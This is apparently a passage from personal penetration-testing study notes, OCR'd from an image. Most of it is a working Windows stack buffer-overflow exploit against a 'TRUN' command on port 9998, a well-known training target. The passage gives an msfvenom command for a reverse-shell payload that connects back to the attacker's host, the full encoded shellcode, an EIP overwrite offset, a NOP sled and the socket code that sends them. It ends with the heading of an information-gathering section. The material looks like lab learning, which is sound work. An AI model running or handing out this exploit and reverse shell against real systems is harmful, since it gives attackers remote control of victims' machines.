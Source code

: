 			see if .dll is loaded into EIP

	Gaining remote shell:

		msfvenom -p windows/shell_reverse_tcp LHOST=lhost LPORT=4444 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"

		add the payload, and some NOP's.
		a NOP is a hex of \x90, add it right after the overwritten EIP, "\x90"*32 should be enough.

		import sys
		import socket

		exploit=("\xda\xcb\xd9\x74\x24\xf4\x5a\xbe\x8f\xe5\x98\xa8\x31\xc9\xb1"
		"\x52\x31\x72\x17\x03\x72\x17\x83\x4d\xe1\x7a\x5d\xad\x02\xf8"
		"\x9e\x4d\xd3\x9d\x17\xa8\xe2\x9d\x4c\xb9\x55\x2e\x06\xef\x59"
		"\xc5\x4a\x1b\xe9\xab\x42\x2c\x5a\x01\xb5\x03\x5b\x3a\x85\x02"
		"\xdf\x41\xda\xe4\xde\x89\x2f\xe5\x27\xf7\xc2\xb7\xf0\x73\x70"
		"\x27\x74\xc9\x49\xcc\xc6\xdf\xc9\x31\x9e\xde\xf8\xe4\x94\xb8"
		"\xda\x07\x78\xb1\x52\x1f\x9d\xfc\x2d\x94\x55\x8a\xaf\x7c\xa4"
		"\x73\x03\x41\x08\x86\x5d\x86\xaf\x79\x28\xfe\xd3\x04\x2b\xc5"
		"\xae\xd2\xbe\xdd\x09\x90\x19\x39\xab\x75\xff\xca\xa7\x32\x8b"
		"\x94\xab\xc5\x58\xaf\xd0\x4e\x5f\x7f\x51\x14\x44\x5b\x39\xce"
		"\xe5\xfa\xe7\xa1\x1a\x1c\x48\x1d\xbf\x57\x65\x4a\xb2\x3a\xe2"
		"\xbf\xff\xc4\xf2\xd7\x88\xb7\xc0\x78\x23\x5f\x69\xf0\xed\x98"
		"\x8e\x2b\x49\x36\x71\xd4\xaa\x1f\xb6\x80\xfa\x37\x1f\xa9\x90"
		"\xc7\xa0\x7c\x36\x97\x0e\x2f\xf7\x47\xef\x9f\x9f\x8d\xe0\xc0"
		"\x80\xae\x2a\x69\x2a\x55\xbd\x56\x03\x54\x29\x3f\x56\x56\x40"
		"\xe3\xdf\xb0\x08\x0b\xb6\x6b\xa5\xb2\x93\xe7\x54\x3a\x0e\x82"
		"\x57\xb0\xbd\x73\x19\x31\xcb\x67\xce\xb1\x86\xd5\x59\xcd\x3c"
		"\x71\x05\x5c\xdb\x81\x40\x7d\x74\xd6\x05\xb3\x8d\xb2\xbb\xea"
		"\x27\xa0\x41\x6a\x0f\x60\x9e\x4f\x8e\x69\x53\xeb\xb4\x79\xad"
		"\xf4\xf0\x2d\x61\xa3\xae\x9b\xc7\x1d\x01\x75\x9e\xf2\xcb\x11"
		"\x67\x39\xcc\x67\x68\x14\xba\x87\xd9\xc1\xfb\xb8\xd6\x85\x0b"
		"\xc1\x0a\x36\xf3\x18\x8f\x56\x16\x88\xfa\xfe\x8f\x59\x47\x63"
		"\x30\xb4\x84\x9a\xb3\x3c\x75\x59\xab\x35\x70\x25\x6b\xa6\x08"
		"\x36\x1e\xc8\xbf\x37\x0b")

		shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + exploit 

		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		try:
		    connect=s.connect(('192.168.1.25', 9998))
		    s.send(('TRUN /.:/' + shellcode))
		except:
		    print("ERROR!")
		s.close()




Information Gathering ::

	Infrastructures:

		goal is to retrieve:
			- Domains
			- Mail servers
			- Netblocks / IP Adresses
			- ISP's used
			- etc.
